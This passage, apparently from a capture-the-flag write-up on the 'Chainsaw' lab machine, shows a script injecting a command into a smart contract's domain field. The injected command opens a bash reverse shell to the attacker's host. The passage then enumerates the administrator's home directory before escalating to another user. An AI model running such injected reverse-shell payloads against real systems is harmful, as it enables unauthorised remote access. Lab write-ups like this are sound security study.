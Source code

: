 



    root@kali# ./chainsaw_shell.py 
    [+] Got address over FTP: 0x8Dfbf1e0cFdB8747bedd6c3754674bbedd24A05C.
    [+] Got abi over FTP: [{'constant': True, 'inputs': [], 'name': 'getDomain', 'outputs': [{'name': '', 'type': 'string'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'string'}], 'name': 'setDomain', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}]
    [+] Connected to web3 provider: http://10.10.10.142:9810
    [*] Starting listener on port 443
    [*] Current domain value is: google.com
    [+] Domain value now: google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
    [*] Sleeping to allow connection
    bash: cannot set terminal process group (1527): Inappropriate ioctl for device
    bash: no job control in this shell
    administrator@chainsaw:/opt/WeaponizedPing$ id
    uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)



## Priv: administrator --\> bobby

### Enumeration

#### Home Directories

In the homedir, there's no `user.txt`. There is one other user on
Chainsaw, bobby, but I don't have access to that home folder at all:



    administrator@chainsaw:/opt/WeaponizedPing$ ls -l /home
    total 8
    drwxr-x--- 8 administrator administrator 4096 Dec 20  2018 administrator
    drwxr-x--- 9 bobby         bobby         4096 Jan 23  2019 bobby



Still, there are a couple interesting things in administrator's home
folder:



    administrator@chainsaw:/home/administrator$ ls -la
    total 104
    drwxr-x--- 8 administrator administrator  4096 Dec 20  2018 .
    drwxr-xr-x 4 root          root           4096 Dec 12  2018 ..
    lrwxrwxrwx 1 administrator administrator     9 Dec 12  2018 .bash_history -> /dev/null
    -rw-r----- 1 administrator administrator   220 Dec 12  2018 .bash_logout
    -rw-r----- 1 administrator administrator  3771 Dec 12  2018 .bashrc
    -rw-r----- 1 administrator administrator   220 Dec 20  2018 chainsaw-emp.csv
    drwxrwxr-x 5 administrator administrator  4096 Jan 23 09:27 .ipfs
    drwxr-x--- 3 administrator administrator  4096 Dec 12  2018 .local
    drwxr-x--- 3 administrator administrator  4096 Dec 13  2018 maintain
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .ngrok2
    -rw-r----- 1 administrator administrator   807 Dec 12  2018 .profile
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .ssh
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .swt
    -rw-r----- 1 administrator administrator  1739 Dec 12  2018 .tmux.conf
    -rw-r----- 1 administrator administrator 45152 Dec 12  2018 .zcompdump
    lrwxrwxrwx 1 administrator administrator     9 Dec 12  2018 .zsh_history -> /dev/null
    -rw-r----- 1 administrator administrator  1295 Dec 12  2018 .zshrc
